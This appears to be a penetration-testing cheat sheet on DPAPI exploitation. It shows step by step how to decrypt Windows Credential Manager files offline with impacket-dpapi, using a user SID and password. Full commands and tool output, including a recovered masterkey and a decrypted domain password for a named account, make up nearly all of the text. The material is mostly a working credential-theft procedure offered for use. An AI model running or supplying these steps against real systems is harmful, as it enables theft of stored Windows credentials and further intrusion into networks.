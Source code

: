 # DPAPI Exploitation

## Attacking Credential Manager Offline using impacket-dpapi

* We need to grab 3 things
  - The user SID
  - The Credential File(s) (Stored in %USERPROFILE%\AppData\Roaming\Microsoft\Credentials)
  - The Users Password

1. First we need to extract the key

    ```bash
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    ```
    ```bash
    # Example
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [MASTERKEYFILE]
    Version     :        2 (2)
    Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
    Flags       :        0 (0)
    Policy      :        0 (0)
    MasterKeyLen: 00000088 (136)
    BackupKeyLen: 00000068 (104)
    CredHistLen : 00000000 (0)
    DomainKeyLen: 00000174 (372)

    Decrypted key with User Key (MD4 protected)
    Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
2. That will give us the key to decrypt the credential vault

    ```bash
    impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
    ```bash
    # Example
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [CREDENTIAL]
    LastWritten : 2025-01-29 12:55:19+00:00
    Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
    Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
    Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
    Target      : Domain:target=Jezzas_Account
    Description : 
    Unknown     : 
    Username    : jeremy.combs
    Unknown     : qT3V9pLXyN7W4m
    ```
